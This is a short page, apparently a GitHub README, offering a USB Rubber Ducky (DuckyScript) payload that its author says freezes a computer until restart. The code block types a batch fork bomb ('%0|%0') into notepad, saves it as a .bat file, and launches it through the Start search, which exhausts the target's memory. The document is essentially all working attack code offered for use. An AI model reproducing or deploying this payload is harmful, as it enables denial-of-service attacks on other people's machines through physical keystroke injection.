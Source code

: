 Hello! This payload will freeze the computer until you restart!
The way it works is it creates a batch file that will eat up all the computers memory!

```code
DELAY 1000
GUI r
DELAY 100
STRING notepad
DELAY 100
ENTER
DELAY 100
STRING %0|%0
CONTROL s
DELAY 100
STRING Duck Batch File.bat
TAB
DELAY 100
DOWNARROW
DELAY 100
DOWNARROW
DELAY 100
ENTER
DELAY 100
ENTER
DELAY 500
GUI s
DELAY 500
STRING Duck Batch File.bat
DELAY 100
ENTER
DELAY 100
```
